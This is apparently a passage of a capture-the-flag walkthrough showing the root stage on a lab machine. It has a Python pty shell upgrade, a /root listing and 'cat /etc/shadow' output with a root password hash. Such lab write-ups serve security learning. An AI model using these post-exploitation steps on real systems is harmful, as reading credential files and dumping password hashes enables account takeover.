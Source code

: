 &nbsp;  

## Root

```
# python3 -c 'import pty;pty.spawn("/bin/bash")'
root@pc:~/.pyload/data# cd /root
cd /root
root@pc:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@pc:~# ls -la
ls -la
total 68
drwx------  7 root root  4096 Apr 27 15:32 .
drwxr-xr-x 21 root root  4096 Apr 27 15:23 ..
lrwxrwxrwx  1 root root     9 Jan 11 17:36 .bash_history -> /dev/null
-rw-r--r--  1 root root  3106 Dec  5  2019 .bashrc
drwxr-xr-x  3 root root  4096 Apr  4 10:25 .cache
drwxr-xr-x  3 root root  4096 Apr  4 10:25 .local
-rw-r--r--  1 root root   161 Dec  5  2019 .profile
drwxr-xr-x  7 root root  4096 Jan 11 17:21 .pyload
-rw-------  1 root root  3203 Apr 27 15:32 .viminfo
drwxr-xr-x  3 root root  4096 Apr 27 13:15 Downloads
-rw-r-----  1 root root    33 Jun 13 00:46 root.txt
drwx------  3 root root  4096 Jan 11 16:56 snap
-rw-r--r--  1 root root 24576 Jan 11 17:57 sqlite.db.bak

```  
Here I have updgraded the shell to give us a better prompt, changed to the root directory, checked the user id and have listed out the contents of the root directory.  

```
root@pc:~# cat /etc/shadow
cat /etc/shadow
root:$6$DyP1KfBYGKoKi9P1$UiRaoILBpT81btxBn3Hzd5KmsRiijiMcR8J/F7ULWYvIMVzicsE3s/Yfyd20bypQUJ4utbJMRzYip4HT0s9ri.:19368:0:99999:7:::
daemon:*:19367:0:99999:7:::
bin:*:19367:0:99999:7:::
sys:*:19367:0:99999:7:::
sync:*:19367:0:99999:7:::
games:*:19367:0:99999:7:::
man:*:19367:0:99999:7:::
lp:*:19367:0:99999:7:::
mail:*:19367:0:99999:7:::
news:*:19367:0:99999:7:::
uucp:*:19367:0:99999:7:::
proxy:*:19367:0:99999:7:::
www-data:*:19367:0:99999:7:::
backup:*:19367:0:99999:7:::
list:*:19367:0:99999:7:::
irc:*:19367:0:99999:7:::
gnats:*:19367:0:99999:7:::
nobody:*:19367:0:99999:7:::
systemd-network:*:19367:0:99999:7:::
systemd-resolve:*:19367:0:99999:7:::
systemd-timesync:*:19367:0:99999:7:::
messagebus:*:19367:0:99999:7:::
syslog:*:19367:0:99999:7:::
_apt:*:19367:0:99999:7:::
tss:*:19367:0:99999:7:::
uuidd:*:19367:0:99999:7:::
tcpdump:*:19367:0:99999:7:::
sshd:*:19367:0:99999:7:::
```